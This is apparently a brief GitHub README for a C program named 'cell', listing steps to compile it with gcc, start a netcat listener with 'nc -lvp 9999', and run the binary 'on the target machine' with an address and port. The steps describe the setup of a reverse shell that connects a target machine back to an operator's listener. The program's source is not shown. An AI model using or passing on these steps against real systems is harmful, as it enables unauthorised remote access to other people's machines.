 ## cell

**Compile with gcc `$ gcc cell.c --output cell`**  
**Set up a nc listener to the port you desire `$ nc -lvp 9999`**  
**On the target machine run `$ ./cell <address> <port>`**  

<img src="https://user-images.githubusercontent.com/69394316/229928414-12a215e7-931f-4bd9-93fd-0171607b7823.png" alt="C" width="50" height="50" />
